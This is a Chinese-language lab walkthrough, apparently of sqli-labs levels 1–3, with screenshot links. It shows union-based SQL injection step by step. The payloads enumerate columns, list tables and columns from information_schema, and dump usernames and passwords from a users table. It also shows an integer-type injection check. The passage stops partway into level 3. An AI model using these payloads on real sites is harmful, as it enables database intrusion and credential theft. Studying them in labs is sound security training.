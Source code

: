 试探行列：-1 order by x#，当x=4时出现报错，说明只有三行

![img](https://s2.loli.net/2024/11/24/q3nKAZYrsBheGSm.png)

之后试探列数

![img](https://s2.loli.net/2024/11/24/6mDVBuos9qN8diT.png)

在输入1，2时报错，1，2，3时出现如上内容，说明有3列

之后使用database（）暴库

![img](https://s2.loli.net/2024/11/24/FeYinCS1dxUqPpg.png)

这里发现位置1并不显示，调整成2位置方便观察

查看有哪些表

```plain
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),3 -- -
```



![img](https://s2.loli.net/2024/11/24/u3coLNagIeJkO8M.png)

查看行列

```plain
-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name='users'),3 -- -
```

![img](https://s2.loli.net/2024/11/24/f5nhbQ9lszSJIca.png)

```plain
-1' union select 1,(select group_concat(concat_ws(username,password))from users),3 -- -
```

![img](https://s2.loli.net/2024/11/24/JojiM6HLZEhv7GA.png)

成功

#### 2：

![img](https://s2.loli.net/2024/11/24/o4DsQ2EyOMaxeWj.png)

![img](https://s2.loli.net/2024/11/24/AS4GJ2dcPb1R6ME.png)

输入 1 and 1=1和1and 1=2来判断，为整型

将注入的内容变成了整型，所以将-1后面的单引号去除即可，不多赘述

#### 3

输入1'，产生报错信息
